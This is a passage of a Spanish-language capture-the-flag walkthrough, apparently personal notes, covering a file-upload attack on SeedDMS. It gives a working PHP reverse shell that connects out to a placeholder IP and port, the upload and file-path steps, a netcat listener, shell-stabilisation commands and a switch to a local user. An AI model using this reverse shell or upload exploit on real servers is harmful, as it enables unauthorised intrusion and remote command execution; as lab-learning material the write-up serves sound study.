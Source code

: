URL = https://www.exploit-db.com/exploits/47022

Siguiendo estos pasos podremos subir un archivo `.php` y hacernos una `Reverse Shell` para conectarnos como `www-data`, haciendo lo siguiente...

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Una vez teniendo este archivo, nos dirigimos a la pestaña llamada `Add Documents` dentro de esa pestaña en la casilla `name` pondremos el nombre que queramos en mi caso `shell.php` y donde pone `Cargar archivo` selecionaremos nuestro archivo `.php`, donde pone la casilla de `version` no lo tocamos por que se tiene que quedar en el numero `1`, una vez hecho esto guardamos los cambios y nos vamos a donde esta el archivo para poner el cursor encima del archivo y ver que `ID` tiene para hacer lo siguiente...

!\[\[Pasted image 20240526115710.png]] !\[\[Pasted image 20240526115729.png]] !\[\[Pasted image 20240526115744.png]] !\[\[Pasted image 20240526115755.png]] !\[\[Pasted image 20240526115814.png]] !\[\[Pasted image 20240526115856.png]] Ahi vemos la `ID` llamado `documentid=7`, por lo que la direccion del archivo sera el siguiente...

```
URL = http://<IP>/seeddms51x/data/1048576/<ID>/1.php
```

Metiendo eso nos llevara al archivo y si estamos a la escucha nos hara una shell...

```shell
nc -lvnp <PORT>
```

Una vez hecho esto ya estariamos con la shell de `www-data`, por lo que la sanitizamos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home/` veremos el usuario `saket` el mismo que encontramos en la base de datos de `mysql`, haremos lo siguiente...

```shell
su saket
```

